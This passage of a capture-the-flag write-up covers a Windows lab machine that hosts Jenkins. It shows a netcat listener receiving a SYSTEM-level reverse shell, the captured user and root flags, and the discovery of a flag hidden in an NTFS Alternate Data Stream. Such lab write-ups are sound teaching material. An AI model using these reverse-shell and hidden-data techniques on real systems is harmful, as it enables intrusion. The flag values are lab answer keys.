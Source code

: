 - Success! We are `NT AUTHORITY\SYSTEM`
```
┌──(root㉿kali)-[~/Downloads]
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.63] 49730
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

- User flag - kohsuke
```
C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb47950d59c4cf1e7066a
```

- Root flag search
```
C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.

C:\Users>dir /s /b *root*.txt *flag*.txt 2>nul
dir /s /b *root*.txt *flag*.txt 2>nul
C:\Users\Administrator\.jenkins\war\WEB-INF\update-center-rootCAs\jenkins-update-center-root-ca.txt
```

- I needed to search the Administrator's Desktop folder more thoroughly. This required research
	- Using an element of NTFS files called **Alternate Data Streams** (ADS), data can be hidden from analysis tools. You can show alternate data streams in a directory listing with the **/r** switch
```
C:\Users\Administrator\Desktop>dir /r
dir /r
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,607,955,968 bytes free
```
- To read the ADS file, a simple `type` command would not work
	- We can use the `more <` command to read these files
- Root flag
```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt           
more < hm.txt:root.txt
afbc5bd4b615a60648cec41c6ac92530
```